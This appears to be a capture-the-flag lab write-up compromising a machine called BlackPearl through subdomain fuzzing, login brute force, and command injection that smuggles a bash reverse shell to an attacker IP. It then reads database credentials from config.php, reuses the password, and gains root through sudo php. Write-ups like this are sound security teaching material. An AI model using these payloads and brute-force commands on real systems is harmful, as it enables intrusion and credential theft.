# BlackPearl - Penetration Testing Report

**Machine:** BlackPearl

**IP Address:** 10.15.1.247

**Operating System:** Ubuntu Linux

**Difficulty:** Medium

**Date:** April 6, 2026

---

## Executive Summary

Successfully compromised the BlackPearl machine through subdomain enumeration, credential brute-forcing, database exploitation, and privilege escalation via sudo misconfiguration. The attack demonstrated critical vulnerabilities in web application security, including weak authentication mechanisms, database credential exposure, and improper sudo permissions allowing command execution as root.

**Attack Path:**

```
Port scanning → Subdomain discovery (dashboard.blackpearl.ms) → Login brute force →User credential discovery → SSH access as michael → Sudo privilege abuse → Root access
```

---

## Flags Obtained

**User Flag:** `8b9aab9a8c7ded9dae315e2399495e39`

**Root Flag:** `182baef550011f3356a5ebccb8c6cd53`

---

## Reconnaissance & Enumeration

### Network Scanning

**Initial Port Scan:**

```bash
sudo nmap -sS -sC -sV -p- -T4 10.15.1.247
```

**Scan Results:**

| Port | Service | Version | Notes |
| --- | --- | --- | --- |
| 22/tcp | SSH | OpenSSH 9.6p1 Ubuntu | Remote access |
| 80/tcp | HTTP | Apache httpd 2.4.58 (Ubuntu) | Web server |



**Key Findings:**

- Ubuntu Linux system
- Apache web server running
- SSH service available
- HTTP redirect detected: `http://blackpearl.ms/`
- OS Detection: Linux; CPE: `cpe:/o:linux:linux_kernel`

**HTTP Response Headers:**

```
Server: Apache/2.4.58 (Ubuntu)
Redirect: http://blackpearl.ms/
```

---

## DNS Enumeration

## Subdomain Fuzzing

**FFUF Subdomain Enumeration:**

```bash
ffuf -u http://blackpearl.ms \
  -H "Host: FUZZ.blackpearl.ms" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -ac
```

**Results:**

```
dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1]
```



**Discovered Subdomain:** `dashboard.blackpearl.ms`

**Hosts File Configuration:**

```bash
echo "10.15.1.247 dashboard.blackpearl.ms" | sudo tee -a /etc/hosts
echo "10.15.1.247 blackpearl.ms" | sudo tee -a /etc/hosts
```



---

## Web Application Analysis

**Main Website (blackpearl.ms):**

- Company website: BlackPearl
- Tagline: "Engineering Tomorrow's Digital Infrastructure"
- Professional technology company portal
- Leadership team profiles visible



**Leadership Team:**

- Adrian Kim - Chief Executive Officer
- Sofia Reyes - Chief Technology Officer
- **Michael Torres - VP of Engineering**
- Priya Narayanan - Chief Security Officer



**Dashboard Subdomain (dashboard.blackpearl.ms):**

- Application: BlackPearl Portal
- Description: Internal team management platform
- Login page requiring authentication
- Error messages reveal account existence

---

## Explo**itation**

### Phase 1: Login Brute Force

**Initial Login Attempt:**

Tested default credentials:

- Username: `admin`
- Password: `admin`

**Response:**

```
The account admin was not found in our system.
```



**Key Observation:** Error message reveals whether username exists in the system.

---

### Phase 2: Username Enumeration

**Burp Suite Interception:**

Captured POST request to login page to find out Content-Type of POST request:

```
POST /login.php HTTP/1.1
Host: dashboard.blackpearl.ms
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://dashboard.blackpearl.ms
Connection: keep-alive
Referer: http://dashboard.blackpearl.ms/login.php
Cookie: PHPSESSID=ckp3k5brerj5kjyg89rv88d9i
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=admin&password=admin
```



**FFUF Username Enumeration:**

```bash
ffuf -u http://dashboard.blackpearl.ms/login.php \
  -X POST \
  -d "username=W1&password=W2" \
  -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:W1 \
  -w /usr/share/wordlists/rockyou.txt:W2 \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -c -fl 229
```



We see that it will take **eternity** to brute force the user creds.

---

**Strategy:** Use company leadership names from website and find out excisting username in system.





Username Michael found in the system.

---

### Phase 3: Password Brute Force

**Password brute force:**

```bash
ffuf -u http://dashboard.blackpearl.ms/login.php \
-X POST \
-d "username=Michael&password=FUZZ" \
-w /usr/share/seclists/Passwords/Common-Credentials/Pwdb_top-10000.txt \
-H "Content-Type: application/x-www-form-urlencoded" \
-fl 229 -t 20
```

For brute force we used ffuf in lowered threads to `-t 20` so the system will not block **us**.



Credentials:

- **Login: Michael**
- **Password: Password123**

Successfull login:



---

### Phase 4: Enumiration and Initial Access

**Admin dashboard enumiration:**

On `/tools.php`  directory found **Diagnostic tools** that run by www-data:



**Bypass Frontent filter with Burpsuite:**

Intercept Execute command and modify POST request to get revese shell



**On burp repeater:**

```bash
tool=ping&host=8.8.8.8%0Abash+-c+'bash+-i+>%26+/dev/tcp/10.8.0.50/4444+0>%261'
```

**Atacker machine:**

```bash
nc -lvnp 4444
```

### Initial access



Got access to system as `www-data`

### Phase 5: Configuration File Analysis

**Accessing Web Root:**

Once access was obtained (method unclear from screenshots), navigated to web application directory:

```bash
cat /var/www/dashboard/config.php
```

**Database Credentials Discovered:**

```php
<?php
session_start();

$db_host = 'localhost';
$db_name = 'blackpearl_portal';
$db_user = 'bp_portal';
$db_pass = 'Bp@dm1n_S3cure!2024';

try {
    $pdo = new PDO("mysql:host=$db_host;dbname=$db_name;charset=utf8mb4", $db_user, $db_pass);
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
    $pdo->setAttribute(PDO::ATTR_DEFAULT_FETCH_MODE, PDO::FETCH_ASSOC);
} catch (PDOException $e) {
    die("System maintenance in progress. Please try again later.");
}

mysqli_report(MYSQLI_REPORT_OFF);
$mysqli = new mysqli($db_host, $db_user, $db_pass, $db_name);
if ($mysqli->connect_error) {
    die("System maintenance in progress. Please try again later.");
}
```



**Extracted Credentials:**

- **Database Host:** localhost
- **Database Name:** blackpearl_portal
- **Database User:** bp_portal
- **Database Password:** Bp@dm1n_S3cure!2024

---

## Priveledge Escalation

### Password reuse

**Switching to Michael:**

```bash
su Michael
# Bp@dm1n_S3cure!2024
```

**Success:**

```bash
michael@haad-08659737:/tmp$
```

**User Flag:**

```bash
cd ~
ls
cat user.txt
# 8b9aab9a8c7ded9dae315e2399495e39
```



---

### Sudo Permissions Analysis

**Checking Sudo Rights:**

```bash
sudo -l
```

**Output:**

```
Matching Defaults entries for michael on haad-08659737:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User michael may run the following commands on haad-08659737:
    (ALL) NOPASSWD: /usr/bin/php
```

**Critical Finding:** Michael can execute PHP as root without password!

---

### Exploiting PHP Sudo Access

**Strategy:** Use PHP's `system()` function to execute commands as root

**Direct Root Shell**

```bash
sudo php -r 'system("/bin/sh -i");'
```

**Root Access Achieved:**

```bash
whoami
# root
```

---

### Proof of Compromise

**Root Flag:**

```bash
cd /root
ls
# root.txt
cat root.txt
# 182baef550011f3356a5ebccb8c6cd53
```


---

## Vulnerability Summary

| Vulnerability | Severity | CVSS | Impact |
| --- | --- | --- | --- |
| Subdomain Enumeration | Low | 3.7 | Information disclosure |
| Username Enumeration via Error Messages | Medium | 5.3 | Account discovery |
| Weak Password Policy | High | 7.5 | Unauthorized access |
| Plaintext Database Credentials | Critical | 9.1 | Database compromise |
| Password Reuse (DB → System) | Critical | 9.8 | System access |
| Sudo PHP Misconfiguration | Critical | 9.8 | Root privilege escalation |

---

## Tools Used

| Tool | Purpose |
| --- | --- |
| Nmap | Port scanning and service detection |
| FFUF (FUZZ faster u full) | Subdomain enumeration and login brute force |
| Burp Suite | HTTP request interception and analysis |
| Netcat | Reverse shell listener |
| PHP | Privilege escalation exploit |

---

## MITRE ATT&CK Mapping

| Tactic | Technique | Procedure |
| --- | --- | --- |
| Reconnaissance | T1595.002 - Active Scanning: Vulnerability Scanning | Nmap port scan |
| Reconnaissance | T1592.004 - Gather Victim Network Information: DNS | Subdomain enumeration |
| Initial Access | T1190 - Exploit Public-Facing Application | Login brute force |
| Credential Access | T1110.001 - Brute Force: Password Guessing | FFUF password attack |
| Credential Access | T1552.001 - Credentials In Files | config.php extraction |
| Discovery | T1087.001 - Account Discovery: Local Account | MySQL user enumeration |
| Lateral Movement | T1078.003 - Valid Accounts: Local Accounts | su to michael |
| Privilege Escalation | T1548.003 - Sudo and Sudo Caching | Sudo PHP exploitation |
| Collection | T1005 - Data from Local System | Flag retrieval |

---

## Conclusion

The BlackPearl machine demonstrated a realistic attack scenario combining multiple common web application vulnerabilities. The compromise began with subdomain enumeration revealing an internal management portal, followed by username enumeration and password brute-forcing to gain initial access. Configuration file analysis exposed database credentials stored in plaintext, which were reused for system-level authentication.

The critical security failure was the sudo misconfiguration allowing the michael user to execute PHP with root privileges without a password. This provided a trivial privilege escalation path, as PHP's system() function can execute arbitrary commands with elevated permissions.

**Time to Compromise:** ~2-3 hours

**Difficulty:** Medium (requires multiple vulnerability chaining)

---

**Happy Hacking! 🏴‍☠️**